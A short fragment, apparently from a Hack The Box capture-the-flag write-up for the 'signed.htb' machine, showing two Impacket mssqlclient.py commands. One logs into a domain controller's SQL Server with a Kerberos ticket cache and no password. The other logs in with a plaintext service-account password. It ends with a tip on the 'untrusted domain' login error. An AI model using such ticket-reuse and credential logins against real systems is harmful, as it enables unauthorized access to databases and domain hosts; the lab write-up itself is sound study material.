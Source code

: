 ```
KRB5CCNAME=.ccache mssqlclient.py -k -no-pass adminstartor@dc.signed.htb 
```


if you got 
`The login is from an untrusted domain and cannot be used with Integrated authentication.`
Then give it the domain before the username
```
mssqlclient.py 'signed.htb/mssqlsvc:purPLE9795!@@10.129.123.188' -windows-auth
```